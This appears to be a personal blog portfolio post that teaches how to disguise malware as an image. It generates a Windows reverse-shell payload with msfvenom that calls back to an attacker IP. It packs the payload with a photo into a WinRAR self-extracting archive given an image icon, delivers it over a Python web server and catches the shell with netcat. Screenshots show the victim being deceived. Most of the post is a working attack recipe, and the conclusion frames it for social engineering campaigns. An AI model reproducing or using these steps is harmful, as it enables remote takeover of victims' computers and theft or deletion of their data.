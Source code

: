 ```yaml
---
title: "How to attach a virus to an image?"
#excerpt: "Short description of portfolio item number 1<br/><img src='/images/500x300.png'>"
excerpt: "<b> A dangerous but adorable Photo </b> <br/><img src='/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%20202407191751222.png'>"
collection: portfolio
---
```


Have you ever wondered if a photo can carry a malware? 
The truth is yes, a photo can carry malware. But it's not easy to make.

So in this post, I will explain a simple method to embed malware inside a photo with WinRAR.

## Creating the virus

We will create a malicious file with `msfvenom`
- ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.31 LPORT=8080 -f exe -o virus.exe``

Through this command, we are specifying that:
- Our victim will be a windows machine with 64-bits architecture
- We want to obtain a reverse shell
- Our Attacking machine has the IP `192.168.0.31`
- The Listener port will be `8080`
- The file will be an executable
- We want to call it `virus.exe`

## Attaching the virus
For attaching our malicious executable to our photo we need:
- Choose two identical photos
- Convert one of these photos to format .ico
### WinRAR
- Select the virus.exe and one photo, then right-click and choose *add file*
- Select the best compression
- Create a Self-extracting file 

![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240719173708.png)

![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240715165940.png)

Click on the Advanced tab and the Self-extracting option 
![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240715170156.png){: style="width: 70%; height: auto; display: block; margin: 0;"}

Click on the installation tab
here we need to write the name of the files we want to be executed when the victim opens the photo.
In our case **virus.exe** and **cute-photo.jpeg**
![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240715170605.png)

*Click on the Text and Icon tab*
- Load icon from file
- Load the .ico file

## Send malware to our victim machine
Once we have our photo with malware, we can to send it to our victim machine, for exemple through HTTP server with Python.
- `sudo python -m http.server 80`

Now we can download the virus.exe onto victim machine.
![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240711091409.png)
We need to disable Windows Defender, because if it is on, the virus.exe will be deleted immediately.

## Attacker listening
Now we open a listener port with Netcat to enable communication with our reverse shell
- ``sudo nc -nlvp 8080``
	- ``-n`` *No resolving host name, that means Netcat only works with IP*
	- `-l` *listening*
	-  ``-v`` *verbose*
	- ``-p`` *port*

## When the victim clicks
This is what the victim will see if the victim has enabled the extensions.

![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240719175122.png)

On the other hand, there are techniques to hide the original extension, but in this post, we will not see that.

This is what the victim will see if they clicks on the image; they will see an executable that wants to install something. Sometimes, people ignore this or think that it is the correct program they need to view their photo.

![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240719174200.png)

At the end the victim will see the image with its correct extensión
![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240719174212.png)

## Attacker machine
Now, let's go back to our listener machine

![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240719174318.png)

When the victim machine clicks on our malicious file we obtain a reverse shell
![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240719174347.png)

That means we have control over the victim's pc and can navigate through directories, list, upload and download information or delete all files.
![Image](/images/Portfolio/How%20to%20attach%20a%20virus%20to%20an%20image/Pasted%20image%2020240719174942.png)

At this point, you can apply post-exploitation techniques, but we're not going to talk about that in this post 

## Conclusions
If this file is sent to many people and the addressee doesn't have much experience, it's likely that the victims will open the file without thinking too much.
So this method seems easy and has a few warning signs, but it is very likely that if this file arrives through a social engineering campaign, there may be people who fall into the trap.
